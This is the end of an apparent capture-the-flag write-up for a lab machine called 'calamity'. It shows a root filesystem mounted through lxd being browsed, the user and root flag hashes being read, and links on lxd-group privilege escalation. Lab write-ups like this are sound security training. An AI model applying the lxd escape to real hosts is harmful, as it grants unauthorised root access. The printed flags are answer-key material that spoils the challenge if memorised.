drwxr-xr-x   14 root     root          4096 Jun 27  2017 var
lrwxrwxrwx    1 root     root            29 Jun 27  2017 vmlinuz -> boot/vmlinuz-4.4.0-81-generic
lrwxrwxrwx    1 root     root            29 Jun 27  2017 vmlinuz.old -> boot/vmlinuz-4.4.0-62-generic
/mnt/root # cd root/
/mnt/root/root # ls
peda      root.txt  scr
/mnt/root/root #
```

```sh
xalvas@calamity:~$ cat user.txt
0790e7be60d5cd7faeeb9ac550762e5e
xalvas@calamity:~$
```

```sh
/mnt/root/root # cat root.txt
9be653e014d17d1a54f9045e3220743c
/mnt/root/root #
```

###### Reference

- [``Privilege Escalation via lxd``](https://reboare.github.io/lxd/lxd-escape.html)
- [``EUD Security Guidance: Ubuntu 16.04 LTS``](https://www.ncsc.gov.uk/guidance/eud-security-guidance-ubuntu-1604-lts) &rarr; User setup
- [``User can use lxc hooks for privilege escalation on lxd host``](https://github.com/lxc/lxd/issues/2003)
- [``Installation via apt-get automatically adds user to lxd group``](https://github.com/lxc/lxd/issues/3844)
